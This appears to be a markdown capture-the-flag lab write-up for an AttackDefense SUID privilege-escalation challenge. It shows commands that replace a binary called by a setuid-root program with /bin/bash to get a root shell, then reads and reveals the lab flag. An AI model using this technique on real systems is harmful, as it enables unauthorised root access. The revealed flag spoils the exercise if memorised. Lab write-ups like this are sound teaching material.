



# 🔬SUID

## Lab 1

>  🔬 [Exploiting Setuid Programs](https://www.attackdefense.com/challengedetails?cid=73)
>
>  - **Cron Jobs** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
pwd
ls -al
```

```bash
drwxr-xr-x 1 student student 4096 Sep 22  2018 .
drwxr-xr-x 1 root    root    4096 Sep 22  2018 ..
-rw-r--r-- 1 root    root      88 Sep 22  2018 .bashrc
-r-x------ 1 root    root    8296 Sep 22  2018 greetings
-rwsr-xr-x 1 root    root    8344 Sep 22  2018 welcome
```

> 📌 `welcome` file has the `SUID` permission applied

```bash
./greetings
	bash: ./greetings: Permission denied
./welcome
	Welcome to Attack Defense Labs
```

```bash
file welcome
```

```bash
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,for GNU/Linux 3.2.0, BuildID[sha1]=199bc8fd6e66e29f770cdc90ece1b95484f34fca, not stripped
```

```bash
strings welcome
```



- It calls `greetings` binary

```bash
rm greetings
cp /bin/bash greetings
./welcome
```



```bash
cd /root
cat flag
```


<details>
<summary>Reveal Flag: 🚩</summary>


`b92bcdc876d52108778e2d81f3b01494`



</details>

------

